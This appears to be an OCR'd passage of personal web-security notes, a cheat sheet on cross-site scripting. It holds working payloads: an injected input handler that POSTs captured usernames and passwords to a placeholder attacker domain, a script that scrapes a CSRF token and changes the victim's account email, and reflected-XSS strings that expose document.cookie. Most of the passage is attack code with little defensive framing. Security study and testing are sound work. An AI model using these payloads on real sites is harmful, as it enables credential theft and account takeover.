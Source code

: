 
- Exploiting cross-site scripting to capture passwords
	
	This technique can be use because of stupid password managers and auto-fill option. Basicly the only thing you have to do is to inject an option in the input label to read data when they are enter. Here is an example : 
	
	```html
	<input name=username id=username>  
	<input type=password name=password onchange="if(this.value.length)fetch('https://MYDOMAIN',{  
	method:'POST',  
	mode: 'no-cors',  
	body:username.value+':'+this.value  
	});">
	```


- Exploiting XSS to perform CSRF

	XSS can also be used to perform CSRF (more details in the next section). Here is an example payload working with token protection enable: 
	
	```javascript
	<script>  
	var req = new XMLHttpRequest();  
	req.onload = handleResponse;  
	req.open('get','/my-account',true);  
	req.send();  
	function handleResponse() {  
	 var token = this.responseText.match(/name="csrf" value="(\\w+)"/)\[1\];  
	 var changeReq = new XMLHttpRequest();  
	 changeReq.open('post', '/my-account/change-email', true);  
	 changeReq.send('csrf='+token+'&email=test@test.com')  
	};  
	</script>
	```


#### Reflected XSS 

Reflected XSS is the simplest variety of cross-site scripting. The application receive data in an HTTP request and includes that data within the immediate response in an unsafe way. Nothing is stored in the webapp and the trigger only works when the user click on the link or whatever with this particular payload include. Here are some examples : 

- HTML context with nothing encoded

	 ```javascript
	 <script>alert(1)</script>
	 ```
 
 
- HTML context with most tags and attributes blocked

	```html 
	<iframe src="https://WEBSITE/?search="><body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
	```
